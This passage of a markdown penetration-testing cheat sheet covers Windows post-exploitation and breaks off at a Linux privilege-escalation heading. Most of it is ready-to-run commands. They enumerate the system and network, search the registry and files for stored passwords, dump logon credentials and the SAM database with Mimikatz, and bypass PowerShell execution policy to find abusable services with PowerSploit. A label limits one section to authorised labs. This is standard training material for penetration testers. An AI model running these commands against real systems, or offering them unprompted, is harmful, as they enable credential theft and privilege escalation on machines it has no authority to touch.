 ### Windows Post-Exploitation

#### System Information
```cmd
# Basic info
systeminfo
whoami /all
net user
net localgroup administrators
net config workstation

# Network info
ipconfig /all
netstat -ano
route print
arp -a
```

#### Credential Harvesting
```cmd
# Registry password locations
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Common password locations
dir /s *password*
dir /s *cred*
findstr /si password *.txt *.xml *.ini *.config

# Browser passwords (tools like LaZagne)
```

#### Advanced Techniques (Authorized Labs Only)
```cmd
# Mimikatz for credential extraction
mimikatz.exe
> privilege::debug
> sekurlsa::logonpasswords
> lsadump::sam

# PowerShell for advanced enumeration
powershell -ep bypass
Import-Module PowerSploit
Get-UnquotedService
Get-ModifiableServiceFile
```

---

## ⬆️ Privilege Escalation

### Linux Privilege Escalation
